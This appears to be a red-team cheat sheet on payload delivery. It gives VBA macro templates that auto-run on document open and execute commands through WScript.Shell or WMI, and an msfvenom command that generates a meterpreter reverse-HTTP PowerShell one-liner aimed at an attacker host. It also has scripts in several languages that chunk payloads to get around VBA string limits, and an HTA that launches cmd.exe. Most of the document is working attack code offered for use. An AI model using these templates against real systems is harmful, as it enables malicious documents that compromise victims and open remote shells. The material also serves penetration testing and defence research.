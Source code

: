 # Payload Delivery

## 01 - Macros

### 1.1 - Templates

Base template when macro is being executed.

```
Sub Document_Open()
    Payload
End Sub

Sub AutoOpen()
    Payload
End Sub
```

Command execution.

```vbscript
Sub Payload()
    ' VBA Macro has a 50 characters String
    ' Limit so you have to concatenate it
    Dim Str As String
    Str = Str + ""
    CreateObject("WScript.Shell").Run Str
    ' CreateObject("WScript.Shell").Run "cmd"
End Sub
```

Powershell one-liners, Web-Drive By, harvest SMB credentials, etc.

```vbscript
Public Function Payload() As Variant
    Dim WindowScriptHost As Object
    Set WindowScriptHost = VBA.CreateObject("WScript.Shell")
    Dim waitOnReturn As Boolean: waitOnReturn = True
    Dim windowStyle As Integer: windowStyle = 7
    WindowScriptHost.Run "<powershell_payload>", windowStyle, waitOnReturn
End Function
```

Using WMI method to execute the process.

```vbscript
Sub WMI_Execution()
    Set Wmi = GetObject("winmgmts:\\.\root\cimv2")
    Set Process = Wmi.Get("Win32_Process")
    Process.Create("<commands>")
End Sub
```

### 1.2 - Macro Formatting

Generate a powershell one liner.

```
$ msfvenom -p windows/x64/meterpreter/reverse_http[s] lhost=<IP> lport=<PORT> exitfunc=thread -f psh-cmd
```

#### 1.2.1 - Bash

```bash
#!/bin/bash

string=""
chunks=50

for (( i=0; i<${#string}; i+=chunks ))
do
    if [[ ${i} -eq 0 ]]
    then
        echo "string=\"${string:i:chunks}\""
    else
        echo "string+=\"${string:i:chunks}\""
    fi
done
```

#### 1.2.2 - Python

```python
#!/usr/bin/env python

string = ""
n = 50

for i in range(0, len(string), n):
    print("Str = Str + \"" + string[i:i+n] + "\"")
```

#### 1.2.3 - Perl

```perl
#!/usr/bin/env perl

my $string = "";

my @characters = ($string =~ /(.)/g);

$concatenated_string = "";

for(my $i = 0; $i < scalar(@characters); $i++) {
    $concatenated_string .= "Str = Str + \"";
    for(my $j = 0; $j < 50; $j++) {
        $concatenated_string .= $characters[$i++];
    }
    $concatenated_string .= chr(34)."\n";
}
print $concatenated_string;
```

#### 1.2.4 - Go

```go
package main

import "fmt"

func main() {
    String := ""

    for i := 0; i < len(String); i++ {
        fmt.Print("Str = Str + \"")
        for j := 0; j < 50; j++ {
            if i == len(String) {
                break
            }
            fmt.Printf("%c", String[i])
            i++
        }
        fmt.Print("\"\n")
    }
}
```

## 02 - HTA

```vbscript
<html>
    <body>
        <script>
        var shell = 'cmd.exe';
        new ActiveXObject('WScript.Shell').Run(shell);
        </script>
    </body>
</html>
```


---
## References

- [War Room: Metasploit Module of the Month Web Delivery](https://warroom.rsmus.com/metasploit-module-of-the-month-web_delivery/)

- [nicholasmckinney: Shellcode Execution Via HTA](https://gist.github.com/nicholasmckinney/e90e47e0545430656bdcca5544d6b4fc)